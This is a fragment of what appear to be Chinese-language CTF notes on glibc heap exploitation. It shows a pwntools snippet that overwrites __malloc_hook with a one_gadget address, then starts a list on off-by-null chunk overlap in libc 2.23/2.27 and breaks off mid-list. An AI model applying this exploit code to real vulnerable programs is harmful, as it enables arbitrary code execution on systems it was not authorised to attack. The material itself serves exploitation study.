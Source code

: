 ```python
p64(__malloc_hook-0x23) + p64(0) # fd bk 
add(0x60,b'A' * 0x13 + p64(libc_base + ogg[2]))
```

​

![image](assets/image-20231209181553-trw5fk9.png)

‍

‍

### off by null 怎么打堆块重叠？

‍

- libc 2.23 libc.2.27
- 合并堆块一般都是 unsortedbin 的事情
- 正常情况都是去修改 prev_size
- 想要合并 要满足 一下条件，
